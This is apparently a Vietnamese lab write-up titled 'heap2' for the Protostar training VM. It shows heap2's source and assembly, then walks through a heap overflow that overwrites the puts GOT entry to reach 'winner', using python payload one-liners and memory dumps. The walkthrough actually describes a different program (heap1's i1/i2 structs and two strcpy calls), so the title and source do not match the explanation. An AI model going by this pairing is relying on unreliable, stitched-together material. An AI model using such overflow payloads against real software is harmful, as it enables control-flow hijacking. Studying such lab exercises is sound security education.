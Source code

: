 ```yaml
---
layout: post
title: heap2
---
```


Trong bài này, chúng ta sẽ exploit heap để điều hướng chương trình.
Sau đây là source code và asm code của chương trình heap2.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if(fgets(line, sizeof(line), stdin) == NULL) break;
    
    if(strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(auth));
      memset(auth, 0, sizeof(auth));
      if(strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if(strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if(strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if(strncmp(line, "login", 5) == 0) {
      if(auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```
```asm
0x08048934 <main+0>:    push   ebp
0x08048935 <main+1>:    mov    ebp,esp
0x08048937 <main+3>:    and    esp,0xfffffff0
0x0804893a <main+6>:    sub    esp,0x90
0x08048940 <main+12>:   jmp    0x8048943 <main+15>
0x08048942 <main+14>:   nop
0x08048943 <main+15>:   mov    ecx,DWORD PTR ds:0x804b5f8
0x08048949 <main+21>:   mov    edx,DWORD PTR ds:0x804b5f4
0x0804894f <main+27>:   mov    eax,0x804ad70
0x08048954 <main+32>:   mov    DWORD PTR [esp+0x8],ecx
0x08048958 <main+36>:   mov    DWORD PTR [esp+0x4],edx
0x0804895c <main+40>:   mov    DWORD PTR [esp],eax
0x0804895f <main+43>:   call   0x804881c <printf@plt>
0x08048964 <main+48>:   mov    eax,ds:0x804b164
0x08048969 <main+53>:   mov    DWORD PTR [esp+0x8],eax
0x0804896d <main+57>:   mov    DWORD PTR [esp+0x4],0x80
0x08048975 <main+65>:   lea    eax,[esp+0x10]
0x08048979 <main+69>:   mov    DWORD PTR [esp],eax
0x0804897c <main+72>:   call   0x80487ac <fgets@plt>
0x08048981 <main+77>:   test   eax,eax
0x08048983 <main+79>:   jne    0x8048987 <main+83>
0x08048985 <main+81>:   leave
0x08048986 <main+82>:   ret
0x08048987 <main+83>:   mov    DWORD PTR [esp+0x8],0x5
0x0804898f <main+91>:   mov    DWORD PTR [esp+0x4],0x804ad8d
0x08048997 <main+99>:   lea    eax,[esp+0x10]
0x0804899b <main+103>:  mov    DWORD PTR [esp],eax
0x0804899e <main+106>:  call   0x804884c <strncmp@plt>
0x080489a3 <main+111>:  test   eax,eax
0x080489a5 <main+113>:  jne    0x8048a01 <main+205>
0x080489a7 <main+115>:  mov    DWORD PTR [esp],0x4
0x080489ae <main+122>:  call   0x804916a <malloc>
0x080489b3 <main+127>:  mov    ds:0x804b5f4,eax
0x080489b8 <main+132>:  mov    eax,ds:0x804b5f4
0x080489bd <main+137>:  mov    DWORD PTR [esp+0x8],0x4
0x080489c5 <main+145>:  mov    DWORD PTR [esp+0x4],0x0
0x080489cd <main+153>:  mov    DWORD PTR [esp],eax
0x080489d0 <main+156>:  call   0x80487bc <memset@plt>
0x080489d5 <main+161>:  lea    eax,[esp+0x10]
0x080489d9 <main+165>:  add    eax,0x5
0x080489dc <main+168>:  mov    DWORD PTR [esp],eax
0x080489df <main+171>:  call   0x80487fc <strlen@plt>
0x080489e4 <main+176>:  cmp    eax,0x1e
0x080489e7 <main+179>:  ja     0x8048a01 <main+205>
0x080489e9 <main+181>:  lea    eax,[esp+0x10]
0x080489ed <main+185>:  lea    edx,[eax+0x5]
0x080489f0 <main+188>:  mov    eax,ds:0x804b5f4
0x080489f5 <main+193>:  mov    DWORD PTR [esp+0x4],edx
0x080489f9 <main+197>:  mov    DWORD PTR [esp],eax
0x080489fc <main+200>:  call   0x804880c <strcpy@plt>
0x08048a01 <main+205>:  mov    DWORD PTR [esp+0x8],0x5
0x08048a09 <main+213>:  mov    DWORD PTR [esp+0x4],0x804ad93
0x08048a11 <main+221>:  lea    eax,[esp+0x10]
0x08048a15 <main+225>:  mov    DWORD PTR [esp],eax
0x08048a18 <main+228>:  call   0x804884c <strncmp@plt>
0x08048a1d <main+233>:  test   eax,eax
0x08048a1f <main+235>:  jne    0x8048a2e <main+250>
0x08048a21 <main+237>:  mov    eax,ds:0x804b5f4
0x08048a26 <main+242>:  mov    DWORD PTR [esp],eax
0x08048a29 <main+245>:  call   0x804999c <free>
0x08048a2e <main+250>:  mov    DWORD PTR [esp+0x8],0x6
0x08048a36 <main+258>:  mov    DWORD PTR [esp+0x4],0x804ad99
0x08048a3e <main+266>:  lea    eax,[esp+0x10]
0x08048a42 <main+270>:  mov    DWORD PTR [esp],eax
0x08048a45 <main+273>:  call   0x804884c <strncmp@plt>
0x08048a4a <main+278>:  test   eax,eax
0x08048a4c <main+280>:  jne    0x8048a62 <main+302>
0x08048a4e <main+282>:  lea    eax,[esp+0x10]
0x08048a52 <main+286>:  add    eax,0x7
0x08048a55 <main+289>:  mov    DWORD PTR [esp],eax
0x08048a58 <main+292>:  call   0x804886c <strdup@plt>
0x08048a5d <main+297>:  mov    ds:0x804b5f8,eax
0x08048a62 <main+302>:  mov    DWORD PTR [esp+0x8],0x5
0x08048a6a <main+310>:  mov    DWORD PTR [esp+0x4],0x804ada1
0x08048a72 <main+318>:  lea    eax,[esp+0x10]
0x08048a76 <main+322>:  mov    DWORD PTR [esp],eax
0x08048a79 <main+325>:  call   0x804884c <strncmp@plt>
0x08048a7e <main+330>:  test   eax,eax
0x08048a80 <main+332>:  jne    0x8048942 <main+14>
0x08048a86 <main+338>:  mov    eax,ds:0x804b5f4
0x08048a8b <main+343>:  mov    eax,DWORD PTR [eax+0x20]
0x08048a8e <main+346>:  test   eax,eax
0x08048a90 <main+348>:  je     0x8048aa3 <main+367>
0x08048a92 <main+350>:  mov    DWORD PTR [esp],0x804ada7
0x08048a99 <main+357>:  call   0x804883c <puts@plt>
0x08048a9e <main+362>:  jmp    0x8048943 <main+15>
0x08048aa3 <main+367>:  mov    DWORD PTR [esp],0x804adc3
0x08048aaa <main+374>:  call   0x804883c <puts@plt>
0x08048aaf <main+379>:  jmp    0x8048943 <main+15>
```

Mục tiêu là gọi được hàm `winner`. `strcpy` có thể lợi dụng được để exploit chương trình.
Sử dụng objdump hoặc gdb, ta tìm được địa chỉ của `winner` là `0x08048494`.
Trong chương trình có sử dụng 2 lần `strcpy` và theo sau là `printf` (`puts` trong asm).
Bản chất của lệnh `call puts@plt` là điều hướng chương trình về một bảng symbol do `puts` là external symbol (khác với `winner` hay `main` được định nghĩa trực tiếp trong source code).
Ở các bài về `printf`, ta điều hướng chương trình bằng cách ghi lại giá dẫn đến hàm `puts` thực bằng một giá trị dẫn đến hàm mục tiêu.
Dựa theo phỏng đoán, ta sẽ dùng `strcpy` lần đầu để ghi lại địa chỉ mà giá trị ở đó chứa địa chỉ của `puts` vào `i2->name`.
Sau đó `strcpy` thứ hai sẽ đọc địa chỉ này, và ghi địa chỉ của `winner` vào đó.

Trước hết, chúng ta sẽ kiếm tra vị trí tương đối của 2 biến `i1` và `i2` trên bộ nhớ.
Sau khi chạy thử chương trình với tham số bất kỳ, đây là bộ nhớ tại `esp`.
Từ asm code, ta biết được địa chỉ của <span style="color:aqua">i1</span> và <span style="color:springgreen">i2</span> nằm lần lượt tại `esp + 0x14` và `esp + 0x18`.

<pre class="memory">
0xbffff770:     0x00000008      0xb7fd7ff4      0x08048580      0xbffff798
0xbffff780:     0xb7ec6365      <span style="color:aqua">0x0804a008</span>      <span style="color:springgreen">0x0804a028</span>      0xb7fd7ff4
0xbffff790:     0x08048580      0x00000000      0xbffff818      0xb7eadc76
</pre>

Với cấu trúc của struct `internet`, 4 byte đầu sẽ là `priority` và 4 byte sau là địa chỉ của `name`.
Như vậy, offset của `name` với địa chỉ của biến sẽ là 0x04.
Ta sẽ suy ra được, trong trường hợp này, vị trí của `i1->name` và `i2->name` là `0x0804a00c` và `0x0804a02c`.
Bộ nhớ tại thời điêm trước sau khi `malloc` biến sẽ như sau.

<pre class="memory">
0x804a008:      0x00000001      <span style="color:aqua">0x0804a018</span>      0x00000000      0x00000011
<span style="color:aqua">0x804a018</span>:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a028:      0x00000002      <span style="color:springgreen">0x0804a038</span>      0x00000000      0x00000011
<span style="color:springgreen">0x804a038</span>:      0x00000000      0x00000000      0x00000000      0x00020fc1
</pre>

Hai địa chỉ tương ứng này là `0x0804a018` và `0x0804a038`.
Với kiểu layout này, lần chạy `strcpy` đầu tiên ta có thể lưu tràn từ địa chỉ của `i1->name` tại `0x0804a018` qua vị trí lưu `name` trên biến `i2` là `0x0804a02c`.
Như vậy, tham số đầu tiên của chương trình sẽ cần 24 byte, trong đó 20 byte đầu để làm phần đệm và 4 byte cuối chứa địa chỉ của `puts` trên bảng lookup symbol `got.plt`.
Sau đây là vị trí trên bộ nhớ. Phân biệt theo màu với <span style="color:yellow">địa chỉ lệnh gọi đến symbol puts@plt</span>, <span style="color:orangered">địa chỉ chứa symbol puts@plt trên bảng got.plt</span>, và <span style="color:fuchsia">địa chỉ thực của puts@plt, cần thay thế bằng địa chi của winner</span>.
<pre class="memory">
0x8048561 <main+168>    call   <span style="color:yellow">0x80483cc <puts@plt></span>
...
<span style="color:yellow">0x80483cc <puts@plt></span>:   jmp    DWORD PTR ds:<span style="color:orangered">0x8049774</span>
...
<span style="color:orangered">0x8049774</span> <_GLOBAL_OFFSET_TABLE_+36>:   <span style="color:fuchsia">0x080483d2</span>
</pre>

4 byte cuối cùng sẽ là `0x8049774`.
Như vậy ta sẽ dựng tham số đầu tiên như sau.

```bash
python -c 'print "AAAA" * 5 + "\x74\x97\x04\x08"'
```

Tham số thứ hai sẽ là địa chỉ của `winner`.

```bash
python -c 'print "\x94\x84\x04\x08"'
```

Như vậy, chúng ta sẽ chạy chương trình với input như sau.
Lưu ý cần khoảng trống giữa hai tham số.

```bash
python -c 'print "AAAA" * 5 + "\x74\x97\x04\x08" + " " + "\x94\x84\x04\x08"'
```

<pre class="memory">
<span style="color:aqua">and we have a winner @ 1687025943</span>
</pre>

Mục tiêu đã hoàn thành!

## Ref
```bash
user@protostar:~$ heap1 $(python -c 'print "AAAA" * 5 + "\x74\x97\x04\x08" + " " + "\x94\x84\x04\x08"')
and we have a winner @ 1687025943
```
